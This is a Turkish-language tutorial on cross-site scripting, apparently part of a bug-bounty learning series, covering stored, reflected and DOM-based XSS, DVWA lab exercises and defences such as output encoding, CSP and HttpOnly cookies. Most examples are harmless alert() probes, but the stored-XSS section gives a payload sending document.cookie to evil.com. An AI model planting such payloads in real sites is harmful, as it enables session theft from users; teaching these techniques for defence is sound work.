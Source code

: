 ### 3. Adım: Cross-Site Scripting (XSS) – Tarayıcının Zaaflarını Kullanmak

Web güvenliğinde sıkça karşılaşılan açıkların bir diğeri de **Cross-Site Scripting (XSS)**. Bu açık, saldırganların bir web uygulamasına zararlı JavaScript kodlarını enjekte ederek diğer kullanıcıların tarayıcılarını manipüle etmesine dayanır. Bu durum hem kullanıcıyı hem de uygulamanın itibarını ciddi şekilde tehdit eder.

Hadi XSS’i anlamaya ve sömürmeye başlayalım. 👾

---

### 3.1 XSS Nedir?

XSS, temelde bir güvenlik açığıdır ve bir saldırganın uygulamanın istemci tarafında (tarayıcıda) zararlı komutlar çalıştırmasına olanak tanır. Örneğin, bir yorum kutusuna aşağıdaki gibi bir kod yazılırsa:

```html
<script>alert('XSS Açığı!');</script>
```

Bu kod, diğer kullanıcıların tarayıcısında çalışabilir ve onların oturum bilgileri, çerezleri veya diğer hassas verilerini çalmaya olanak sağlar.

---

### 3.2 XSS Türleri

XSS’i daha iyi anlamak için türlerine bakalım:

#### **1. Stored XSS (Depolanmış XSS)**
Zararlı kod, kalıcı olarak veri tabanında saklanır ve her seferinde diğer kullanıcılara gönderilir. Örneğin:

- Bir yorum sistemine şu kod yazılır:
    ```html
    <script>document.location='http://evil.com?cookie='+document.cookie;</script>
    ```
- Diğer kullanıcılar bu yorumu görüntülediğinde tarayıcıları zararlı koda maruz kalır.

#### **2. Reflected XSS (Yansıyan XSS)**
Zararlı kod, uygulamadan hemen geri döner ve genelde URL’de taşınır. Örnek:

```html
http://example.com/search?q=<script>alert('XSS')</script>
```

Kullanıcı bu linke tıkladığında kod tarayıcıda çalışır.

#### **3. DOM-Based XSS**
Bu türde, saldırı doğrudan tarayıcıda çalışır ve veriler DOM manipülasyonu ile enjekte edilir. Örneğin:

```javascript
document.write(location.hash);
```

URL şu şekilde olursa:

```html
http://example.com/#<script>alert('XSS')</script>
```

Kod tarayıcıda çalışır.

---

### 3.3 Pratik: XSS Açıklarını Anlamak ve Denemek

#### **Adım 1: Stored XSS Testi**
DVWA’da XSS seviyesini **Low** olarak ayarla ve yorum kutusuna şu kodu yaz:

```html
<script>alert('Stored XSS Testi!');</script>
```

- Bu kod kaydedilir ve her görüntülendiğinde bir `alert` penceresi açılır.
- Şimdi, XSS’in nasıl çalıştığını gözlemle.

#### **Adım 2: Reflected XSS Testi**
DVWA’daki bir arama formuna şu kodu gir:

```html
<script>alert('Reflected XSS Testi!');</script>
```

- Kod tarayıcıya geri döndüğünde çalışır. Bu, XSS’in yansıyan formudur.

#### **Adım 3: DOM-Based XSS Testi**
Bir form veya giriş alanında `document.write` kullanan bir işlev varsa şu kodu deneyebilirsin:

```html
#<script>alert('DOM XSS Testi!');</script>
```

- Eğer DOM manipülasyonu düzgün şekilde filtrelenmediyse, tarayıcı bu kodu çalıştırır.

---

### 3.4 XSS’e Karşı Savunma Teknikleri

XSS açıklarını önlemek için şu yöntemleri kullanabilirsin:

#### **1. Output Encoding**
Kullanıcının verdiği veriyi tarayıcıda işlenmeden önce güvenli hale getir. Örneğin, `"<script>"` gibi bir girdi şu şekilde encode edilmelidir:

```html
&lt;script&gt;
```

#### **2. Input Validation**
Form girdilerini kontrol et ve yalnızca beklenen veri türlerini kabul et.

#### **3. Content Security Policy (CSP)**
CSP, tarayıcıya hangi kaynakların çalıştırılmasına izin verileceğini söyler. Örneğin:

```http
Content-Security-Policy: script-src 'self';
```

Bu politika, yalnızca aynı alan adından gelen script’lere izin verir.

#### **4. HttpOnly Çerezler**
Çerezlerin JavaScript tarafından erişilmesini engelle:

```http
Set-Cookie: sessionid=abc123; HttpOnly;
```

---

### 3.5 XSS Açıklarından Ders Çıkarmak

XSS, küçük bir açık gibi görünse de saldırganlara büyük bir güç verir. Saldırganlar, oturum çerezlerini çalarak kullanıcının oturumunu ele geçirebilir, kimlik avı saldırıları yapabilir veya zararlı içerikler yayabilir.

Pratik yaparken şunu unutma:  
Her zaman bir saldırganın gözünden bak, ancak öğrendiğin teknikleri yalnızca etik ve eğitim amaçlı kullan.

---

### 3.6 Kapanış

XSS, hem anlaması hem de sömürmesi kolay bir açık. Bu nedenle sıkça karşımıza çıkar. Bug bounty avcısı olmak isteyen biri için XSS açıklarını tespit edip raporlamak büyük bir fırsattır. Bir sonraki adımda, **Broken Authentication** konusuna odaklanabiliriz. Hazırsan devam edelim! 😊
